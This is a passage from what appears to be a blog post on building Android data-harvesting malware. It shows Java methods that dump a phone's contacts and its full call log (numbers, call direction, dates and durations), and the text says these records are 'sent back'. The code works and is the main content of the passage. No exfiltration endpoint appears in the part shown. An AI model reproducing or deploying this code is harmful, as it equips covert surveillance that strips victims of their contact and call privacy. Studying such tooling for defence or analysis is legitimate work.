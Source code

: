                             ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null,
                            ContactsContract.CommonDataKinds.Phone.CONTACT_ID + " = ?", new String[]{id}, null
                    );

                    if (pCur != null) {
                        while (pCur.moveToNext()) {
                            String phoneNumber = pCur.getString(pCur.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER));
                            info.add("\n ID=>" + id + "\n Name=>" + name + "\n Phone Number=>" + phoneNumber + "\n");
                        }
                        pCur.close();
                    }
                }
            }
            cursor.close();
        }
    }
    return info;
}
{% endhighlight %}

### 2.2.3. Call Logs Dump
Retrieving call log information requires the `READ_CALL_LOG` Manifest permission. Based on the placed call category, we send back the associated phone number along the date and time as well as call duration in seconds (if answered):

{% highlight java %}
private ArrayList<String> fetchCallLogs() {
    ArrayList<String> logs = new ArrayList<>();
    if (ContextCompat.checkSelfPermission(getBaseContext(), "android.permission.READ_CALL_LOG") == PackageManager.PERMISSION_GRANTED) {
        ContentResolver cr = getContentResolver();
        Cursor cursor = cr.query(CallLog.Calls.CONTENT_URI, null, null, null, null);
        int number = cursor.getColumnIndex(CallLog.Calls.NUMBER);
        int type = cursor.getColumnIndex(CallLog.Calls.TYPE);
        int date = cursor.getColumnIndex(CallLog.Calls.DATE);
        int duration = cursor.getColumnIndex(CallLog.Calls.DURATION);

        while (cursor.moveToNext()) {
            String phNumber = cursor.getString(number);
            String callType = cursor.getString(type);
            String callDate = cursor.getString(date);
            java.util.Date callDayTime = new java.util.Date(Long.valueOf(callDate));
            String callDuration = cursor.getString(duration);
            String dir = null;
            int dircode = Integer.parseInt(callType);
            switch (dircode) {
                case CallLog.Calls.OUTGOING_TYPE:
                    dir = "OUTGOING";
                    break;
                case CallLog.Calls.INCOMING_TYPE:
                    dir = "INCOMING";
                    break;
                case CallLog.Calls.MISSED_TYPE:
                    dir = "MISSED";
                    break;
            }
            logs.add("\n Phone Number=>" + phNumber + "\nType=>" + dir + "\nDate=>" + callDayTime + "\nDuration=>" + callDuration + "\n");
        }
        cursor.close();
    }
    return logs;
}
{% endhighlight %}